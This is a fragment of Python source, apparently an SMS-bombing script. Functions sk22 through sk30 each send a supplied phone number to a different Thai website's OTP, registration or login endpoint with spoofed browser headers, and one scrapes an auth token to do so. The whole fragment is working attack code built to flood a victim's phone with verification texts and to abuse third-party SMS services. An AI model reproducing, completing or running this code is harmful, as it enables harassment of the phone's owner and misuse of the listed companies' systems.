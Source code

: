     post("https://m.lucabet168.com/api/register-otp", headers={"User-Agent": useragent} ,json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})

def sk22(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

def sk23(phone):

    post(url="https://www.cpffeedonline.com/Customer/RegisterRequestOTP", data={"mobileNumber":f"{phone}"})

def sk24(phone):

    post(url="https://www.tgfone.com/index.php/signin/otp_chk", data={"mobile":f"{phone}"})

def sk25(phone):

    post("https://api2.1112.com/api/v1/otp/create", json={"phonenumber":f"0{phone}","language":"th"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

def sk26(phone):

    post("https://unacademy.com/api/v3/user/user_check/", json={"phone":f"0{phone}","country_code":"TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

def sk27(phone):

    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")

def sk28(phone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register", json={"username": f"0{phone}","password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

def sk29(phone):

    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", data={"phone": f"0{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

def sk30(phone):

    post("https://www.berlnw.com/reservelogin", data={"p_myreserve": f"0{phone}"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})
